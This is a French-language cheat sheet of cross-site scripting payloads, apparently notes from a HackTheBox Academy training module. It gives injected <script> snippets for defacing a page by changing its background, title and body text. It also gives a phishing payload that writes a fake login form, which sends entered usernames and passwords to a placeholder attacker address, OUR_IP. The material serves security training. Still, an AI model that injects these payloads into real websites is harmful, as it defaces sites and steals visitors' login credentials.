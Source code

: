 
---
# **DEFACING**


Modifier le site afin d'envoyer un message

## *Changer le background*

#### Changer la couleur

```html
<script>document.body.style.background = "black"</script>
```

#### Changer l'image

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## *Changer le titre de la page*

```html
<script>document.title = 'HackTheBox Academy'
```

## *Changer le texte de la page*

Un seul élément

```html
<script>document.getElementById("todo").innerHTML = "New Text"</script>
```

```html
<script>$("#todo").html('New Text');</script>
```

Changer tout le body

```html
<script>document.getElementsByTagName('body')[0].innerHTML = "New Text"</script>
```


---
# **PHISHING**


## **Création d'un login Form**

```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script>
```
